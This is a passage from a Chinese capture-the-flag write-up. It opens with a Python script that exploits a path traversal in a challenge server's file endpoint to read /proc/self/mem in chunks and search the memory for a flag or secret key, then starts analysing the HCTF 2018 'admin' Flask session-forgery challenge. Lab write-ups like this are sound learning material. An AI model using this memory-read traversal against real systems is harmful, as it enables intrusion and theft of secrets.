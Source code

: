 ```py
    for line in maps:
        if 'rw-p' in line:
            start = re.search('([0-9a-z]{12})-', line)
            end = re.search('-([0-9a-z]{12})', line)

            # 格式处理
            start = int(str(start.group(1)), 16)
            end = int(str(end.group(1)), 16)

            # 拿到了起始位和结束位，发送请求！
            url = f"http://61.147.171.105:60619/info?file=../../../../../proc/self/mem&start={start}&end={end}"
            mem_data = requests.get(url).content
            print(f"正在发送{count}次请求")
            count += 1

            # 匹配 SECRET_KEY
            # if re.search(b'[a-z0-9]{32}\*abcdefgh', mem_data):
            #     print(mem_data)

            if re.search(b'catctf', mem_data):
                print(mem_data)
                with open('end.txt', 'wb') as f:
                    f.write(mem_data)
```

## BUUOJ [HCTF 2018]admin

### 1. 分析

这题主要考的也是Flask session伪造，进入站点注册账号，在`/index`可以看到提示

![image-20231118222810726](CTF.assets/image-20231118222810726.png)

在`/change`也有一个提示

<img src="CTF.assets/image-20231118222846383.png" alt="image-20231118222846383" style="zoom:50%;" />

他这里的GitHub网址已经访问不了了，因为这里包含着这个网站的源码，如果访问不了就没法做，只能看人家的WP了
